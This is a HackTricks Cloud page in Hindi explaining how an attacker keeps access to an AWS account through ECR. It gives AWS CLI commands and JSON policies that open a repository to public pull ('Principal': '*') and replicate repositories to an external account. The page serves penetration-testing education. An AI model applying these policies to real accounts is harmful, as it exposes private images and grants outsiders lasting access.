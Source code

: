 # AWS - ECR Persistence

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* अगर आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>

## ECR

अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-ecr-enum.md" %}
[aws-ecr-enum.md](../aws-services/aws-ecr-enum.md)
{% endcontent-ref %}

### Hidden Docker Image with Malicious Code

एक हमलावर **एक ECR रिपॉजिटरी में दुष्ट कोड वाली डॉकर छवि अपलोड** कर सकता है और इसका उपयोग लक्षित AWS खाते में स्थिरता बनाने के लिए कर सकता है। हमलावर फिर दुष्ट छवि को खाते के विभिन्न सेवाओं में डिप्लॉय कर सकता है, जैसे Amazon ECS या EKS, एक छिपी हुई तरीके से।

### Repository Policy

एक नीति जोड़ें एक एकल रिपॉजिटरी में खुद को (या सभी को) रिपॉजिटरी तक पहुंच देने के लिए:
```bash
aws ecr set-repository-policy \
--repository-name cluster-autoscaler \
--policy-text file:///tmp/my-policy.json

# With a .json such as

{
"Version" : "2008-10-17",
"Statement" : [
{
"Sid" : "allow public pull",
"Effect" : "Allow",
"Principal" : "*",
"Action" : [
"ecr:BatchCheckLayerAvailability",
"ecr:BatchGetImage",
"ecr:GetDownloadUrlForLayer"
]
}
]
}
```
{% hint style="warning" %}
ध्यान दें कि ECR आवश्यकता है कि उपयोगकर्ताओं को किसी IAM नीति के माध्यम से **`ecr:GetAuthorizationToken`** API को कॉल करने की **अनुमति** होनी चाहिए **इससे पहले वे पंजीका में प्रमाणीकरण कर सकें** और किसी भी अमेज़न ECR रिपॉज़िटरी से किसी भी छवियों को पुश या पुल कर सकें।
{% endhint %}

### रजिस्ट्री नीति और क्रॉस-अकाउंट प्रतिलिपि

एक बाह्य खाते में एक पंजीका को स्वचालित रूप से प्रतिलिपि बनाना संभव है, क्रॉस-अकाउंट प्रतिलिपि को कॉन्फ़िगर करने के लिए, जहां आपको पंजीका को प्रतिलिपि बनाना चाहते हैं वहां **बाह्य खाता निर्दिष्ट** करना होगा।

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

सबसे पहले, आपको बाह्य खाते को पंजीका पर पहुंच देनी होगी जैसे कि एक **पंजीका नीति** के साथ:
```bash
aws ecr put-registry-policy --policy-text file://my-policy.json

# With a .json like:

{
"Sid": "asdasd",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::947247140022:root"
},
"Action": [
"ecr:CreateRepository",
"ecr:ReplicateImage"
],
"Resource": "arn:aws:ecr:eu-central-1:947247140022:repository/*"
}
```
फिर उन्हें अनुकरण कॉन्फ़िगरेशन लागू करें:
```bash
aws ecr put-replication-configuration \
--replication-configuration file://replication-settings.json \
--region us-west-2

# Having the .json a content such as:
{
"rules": [{
"destinations": [{
"region": "destination_region",
"registryId": "destination_accountId"
}],
"repositoryFilters": [{
"filter": "repository_prefix_name",
"filterType": "PREFIX_MATCH"
}]
}]
}
```
<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

दूसरे तरीके HackTricks का समर्थन करने के लिए:

* अगर आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks swag**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **Twitter** पर **फॉलो** करें 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **अपने हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>
